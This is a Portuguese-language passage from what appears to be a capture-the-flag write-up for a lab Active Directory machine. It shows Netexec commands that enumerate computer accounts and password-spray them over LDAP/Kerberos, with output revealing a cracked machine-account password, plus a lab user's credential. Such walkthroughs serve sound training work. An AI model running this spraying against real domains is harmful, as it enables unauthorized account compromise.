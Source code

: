 Nesse ponto, temos uma senha sem saber de qual usuário é. Como o ataque de `Timeroasting` é focado em contas de computadores, irei fazer um spray com as contas de máquinas. Pra isso estarei usando o `Netexec` para separar os nomes e para fazer o spray de senha:
```bash
nxc ldap "dc.rustykey.htb" -u 'rr.parker' -p '8#t5HE8L!W3A' -k --computers | awk '{print $5}'

DC$
Support-Computer1$
Support-Computer2$
Support-Computer3$
Support-Computer4$
Support-Computer5$
Finance-Computer1$
Finance-Computer2$
Finance-Computer3$
Finance-Computer4$
Finance-Computer5$
IT-Computer1$
IT-Computer2$
IT-Computer3$
IT-Computer4$
IT-Computer5$
```

Fazendo o spray, descobrimos que a senha que encontramos é do `IT-Computer3$`:
```bash
nxc ldap "dc.rustykey.htb" -u computers -p 'Rusty88!' -k

LDAP        dc.rustykey.htb 389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Support-Computer1$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Support-Computer2$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Support-Computer3$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Support-Computer4$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Support-Computer5$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Finance-Computer1$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Finance-Computer2$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Finance-Computer3$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Finance-Computer4$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\Finance-Computer5$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\IT-Computer1$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [-] rustykey.htb\IT-Computer2$:Rusty88! KDC_ERR_PREAUTH_FAILED
LDAP        dc.rustykey.htb 389    DC               [+] rustykey.htb\IT-Computer3$:Rusty88! 
```
